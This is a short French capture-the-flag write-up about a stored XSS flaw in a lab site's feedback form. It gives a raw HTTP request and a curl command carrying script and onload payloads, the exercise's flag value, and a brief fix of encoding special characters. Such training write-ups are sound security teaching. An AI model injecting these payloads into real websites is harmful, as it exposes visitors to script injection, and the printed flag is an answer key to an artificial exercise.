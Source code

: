 # XSS stored injection

## Exploitation

Sur la page `?page=feedback:` on peut voir un formulaire pour laisser un feedback ce mesage apres avoir ete submit s'affiche sans aucune verification dans la page elle meme. 

Requete:
http://192.168.122.55/?page=feedback
xss stored
request:

POST /?page=feedback HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=feedback
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

txtName=<body onload=alert(0)>&mtxtMessage=%3Cscript%3Ealert%280%29%3C%2Fscript%3E&btnSign=Sign+Guestbook

En veritee pour l'exercice le flag s'obtiens seulement en marquant le terme "script" dans le champ message.
Pour obtenir une reelle XSS on utiliseras un onload dans le champ Name.

Avec curl :

```bash
$> curl 'http://192.168.99.100/?page=feedback' --data 'txtName=%3Cbody+onlo&mtxtMessage=%3Cbody+onload%3Dalert%280%29%3E+script&btnSign=Sign+Guestbook' | grep flag

The flag is : 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
```

## Resolution

Pour eviter ce type de failles on preferas encoder les caracteres speciaux 

 ---- Never Trust User Input ----
